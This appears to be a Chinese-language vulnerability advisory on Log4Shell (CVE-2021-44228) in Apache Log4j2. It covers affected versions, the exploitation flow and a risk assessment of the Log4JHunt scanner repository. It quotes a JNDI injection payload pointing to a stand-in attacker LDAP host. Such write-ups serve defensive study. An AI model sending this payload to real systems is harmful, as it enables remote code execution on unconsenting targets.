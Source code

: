 ## CVE-2021-44228 - Apache Log4j2 Log4Shell 漏洞

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j2

**危害等级:** 高危，未经身份验证的远程代码执行

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用了受影响版本的 Log4j2，并且允许 message lookup substitution。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228，又名Log4Shell，是一个存在于Apache Log4j2中的高危远程代码执行漏洞。攻击者可以通过控制日志消息或日志消息参数，利用 JNDI 注入，从 LDAP 服务器加载并执行任意代码。  

**有效性：** 根据漏洞库信息、搜索引擎结果和提供的漏洞利用代码（Log4JHunt），该漏洞是有效的，并且在野外被广泛利用。Log4JHunt工具旨在自动化检测Log4Shell漏洞。

**投毒风险：**  提供的漏洞利用代码仓库 (Log4JHunt) 主要是一个扫描器，用于检测 Log4Shell 漏洞。通过人工分析代码，发现代码本身存在后门的概率较低。但用户使用第三方工具，仍然存在一定的风险。

仓库中可能存在的潜在风险点：

*   **依赖风险:** 该工具依赖于第三方库，这些库可能存在未知的漏洞或被恶意篡改。但这种风险是普遍存在的，并非该仓库特有。
*   **配置错误风险:** 用户可能配置不当，例如将扫描结果泄露到公共渠道，或者使用弱口令的 DNS callback server，导致信息泄露或被恶意利用。
*   **恶意作者风险：** 作者可能在未来的版本中植入恶意代码，但目前没有证据表明存在这种情况。

综合考虑，此仓库的投毒风险较低，大约为10%。

**利用方式：**

1.  攻击者向目标系统发送包含恶意 JNDI 查找字符串的请求。例如：`${jndi:ldap://attacker.com/evil}`。
2.  如果目标系统使用受影响的 Log4j2 版本记录该请求，Log4j2 会尝试解析 JNDI 查找字符串。
3.  Log4j2 通过 JNDI 接口连接到攻击者控制的 LDAP 服务器 (attacker.com)。
4.  LDAP 服务器返回一个包含恶意 Java 类的响应。
5.  Log4j2 加载并执行该恶意 Java 类，导致远程代码执行。

**Log4JHunt 工具的使用方式：**

1.  使用 Log4JHunt 扫描目标系统，可以指定单个 URL 或包含 URL 列表的文件。
2.  Log4JHunt 会向目标系统发送包含恶意 JNDI 查找字符串的请求，并监控 DNS callback server 或 Canarytokens 服务，以判断目标系统是否存在漏洞。
3.  如果目标系统存在漏洞，Log4JHunt 会收到 DNS callback 或 Canarytokens 触发的通知。

**项目地址:** [redhuntlabs/Log4JHunt](https://github.com/redhuntlabs/Log4JHunt)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)